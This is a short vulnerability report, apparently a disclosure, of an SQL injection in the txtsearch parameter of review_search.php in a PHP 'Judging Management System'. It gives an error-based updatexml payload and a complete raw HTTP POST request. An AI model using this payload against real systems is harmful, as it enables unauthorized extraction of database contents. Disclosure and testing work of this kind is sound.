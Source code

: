# Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Pings

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/review_search.php

Vulnerability location: /php-jms/review_search.php, txtsearch

dbname =jms_db

[+] Payload: txtsearch=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+'%--+ // Leak place ---> txtsearch

```sql
POST /php-jms/review_search.php HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

txtsearch=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+'%--+
```

![image](https://user-images.githubusercontent.com/54017627/206376585-4d008bc2-c22d-4074-82f7-e1ce38a4a169.png)
